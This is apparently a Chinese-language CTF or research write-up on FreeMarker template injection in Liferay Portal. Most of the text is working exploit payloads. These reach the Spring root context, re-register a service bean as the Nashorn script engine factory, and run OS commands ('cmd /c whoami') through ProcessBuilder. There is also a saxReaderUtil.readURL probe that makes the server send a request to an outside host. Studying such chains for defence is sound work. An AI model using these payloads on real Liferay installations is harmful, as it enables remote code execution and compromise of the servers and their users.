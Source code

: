 ```java
<#assign sp=renderRequest.getPortletContext().getServletContext().getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT").getBeanFactory().getBeanDefinition("com.liferay.document.library.kernel.service.DLAppService")>
<#assign ec=sp.setScope("prototype")>
<#assign eb=sp.setBeanClassName("jdk.nashorn.api.scripting.NashornScriptEngineFactory")>
<#assign xx=renderRequest.getPortletContext().getServletContext().getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT").getBeanFactory().registerBeanDefinition("sp",sp)>
<#assign res=renderRequest.getPortletContext().getServletContext().getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT").getBeanFactory().getBean("sp").getScriptEngine().eval("var a = new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','whoami']);var b=a.start().getInputStream();var c=Java.type('com.liferay.portal.kernel.util.StreamUtil');var d=new java.io.ByteArrayOutputStream();c.transfer(b,d,1024,false);var e=new java.lang.String(d.toByteArray());e")>
${res}

${themeDisplayModel.getPortletDisplayModel().getAttributes().getPortletRequest().getContextPath()}
```

这里的exp的思路就是`renderRequest.getPortletContext().getServletContext().getContext("/")`通过这一串获取到springboot的ApplicationContext。然后通过ApplicationContext获取PortalApplicationContext，然后获取`LiferayBeanFactory`.最后用`jdk.nashorn.api.scripting.NashornScriptEngineFactory`，通过 NashornScriptEngine 调用 eval 执行恶意脚本，触发远程代码执行

我们也探索出了SSTI中问题的普遍解法，就是找上下文+内建函数。

### saxReaderUtil(xml获取)

```
saxReaderUtil.readURL("http://ip", false)
```

发现这样确实，会收到http请求。猜测一下是不是xml解析。

报错

![image-20220520204439813](https://c.img.dasctf.com/images/2022520/1653050689561-7475f37f-36be-4304-9bb3-34408894afc5.png)

### Application

![image-20220521001314802](https://c.img.dasctf.com/images/2022520/1653063204473-154b8c4b-3757-44aa-b918-4427b73b2504.png)

这个类大有作为！

```
this._attributes.get("CTX").getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT")
themeDisplayModel.getPortletDisplayModel().getAttributes().get("CTX").getContext("/").getAttribute("org.springframework.web.context.WebApplicationContext.ROOT")
```

```java
<#assign sp=Application["org.springframework.web.context.WebApplicationContext.ROOT"].getBeanFactory().getBeanDefinition("com.liferay.document.library.kernel.service.DLAppService")>
<#assign ec=sp.setScope("prototype")>
<#assign eb=sp.setBeanClassName("jdk.nashorn.api.scripting.NashornScriptEngineFactory")>
<#assign xx=Application["org.springframework.web.context.WebApplicationContext.ROOT"].getBeanFactory().registerBeanDefinition("sp",sp)>
<#assign res=Application["org.springframework.web.context.WebApplicationContext.ROOT"].getBeanFactory().getBean("sp").getScriptEngine().eval("var a = new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','whoami']);var b=a.start().getInputStream();var c=Java.type('com.liferay.portal.kernel.util.StreamUtil');var d=new java.io.ByteArrayOutputStream();c.transfer(b,d,1024,false);var e=new java.lang.String(d.toByteArray());e")>
${res}
```
